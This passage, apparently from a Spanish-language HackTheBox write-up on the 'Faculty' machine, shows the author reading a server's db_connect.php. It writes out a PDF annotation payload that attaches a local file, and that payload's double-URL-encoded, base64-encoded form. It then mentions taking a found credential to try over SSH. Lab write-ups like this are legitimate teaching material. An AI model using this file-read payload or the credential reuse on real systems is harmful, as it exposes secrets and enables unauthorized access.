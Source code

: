![](/assets/images/HTB/Faculty-HackTheBox/gobuster.webp)

Tenemos un archivo que me llama la atención, que es el archivo `db_connect.php`

Asique voy a intentar leerlo, pero existse un problema, desconozco la ruta de ese archivo en el sistema... Pero recuerdo que al comienzo al intentar probar la inyección sql me apareció un error con la ruta `/var/www/scheduling/admin/admin_class.php` y además acabo de descubri también el archivo admin_class.php.

* Primeramente voy a intentar leer el archivo db_connect.php de igual forma que leí el archivo passwd.

```bash
# Genera un archivo con este contenido.
--------------------------------------
<annotation file="/var/www/schedule/admin/db_connect.php" content="/var/www/schedule/admin/db_connect.php" icon="Graph" title="Attached File: /var/www/schedule/admin/db_connect.php" pos-x="195" />

# Lo urlencodea x2 y lo encodea de nuevo en base64
--------------------------------------------------
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyL3Zhci93d3cvc2NoZWR1bGUvYWRtaW4vZGJfY29ubmVjdC5waHAlMjUyMiUyNTIwY29udGVudD0lMjUyMi92YXIvd3d3L3NjaGVkdWxlL2FkbWluL2RiX2Nvbm5lY3QucGhwJTI1MjIlMjUyMGljb249JTI1MjJHcmFwaCUyNTIyJTI1MjB0aXRsZT0lMjUyMkF0dGFjaGVkJTI1MjBGaWxlOiUyNTIwL3Zhci93d3cvc2NoZWR1bGUvYWRtaW4vZGJfY29ubmVjdC5waHAlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```

![](/assets/images/HTB/Faculty-HackTheBox/db.webp)

Y encuentro lo que parece ser una credencial... 

Intentaré loguearme con estas credenciales y uno de los usuarios a través de ssh.

![](/assets/images/HTB/Faculty-HackTheBox/ssh1.webp)
